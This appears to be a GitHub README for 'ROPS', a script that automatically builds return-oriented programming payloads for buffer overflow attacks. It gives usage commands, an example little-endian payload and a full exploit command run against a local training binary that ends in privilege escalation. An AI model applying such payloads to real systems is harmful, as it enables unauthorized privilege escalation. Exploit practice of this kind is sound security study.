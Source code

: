 

# ROPS

A script for the quick and automated construction of ROP (Return-Oriented Programming) chains to generate payloads for ROP attacks.

# Usage

`$ ./rops.sh`

![alt text](./pic/image.png)

`$ ./rops.sh /home/ayush/.binary/rop`

![alt text](./pic/image-1.png)

The script will automatically generate a valid ROP chain payload based on the provided binary file. Once the buffer overflow size is confirmed, you can use the payload generated by the script.

![alt text](./pic/image-2.png)

The payload generated by the script is automatically converted to little-endian byte order, so it can be used directly by copying.

Example payload:

`payload => BUFFER + 0xA03DE5B7 + 0xD079E4B7 + 0x0B4AF7B7`

In the GDB example, with a buffer size of 52, the payload is constructed as follows:

>/home/ayush/.binary/rop $(python2 -c 'print "A"*52 + "\xA0\x3D\xE5\xB7" + "\xD0\x79\xE4\xB7"+"\x0B\x4A\xF7\xB7"')

Successful privilege escalation

![alt text](./pic/image-3.png)

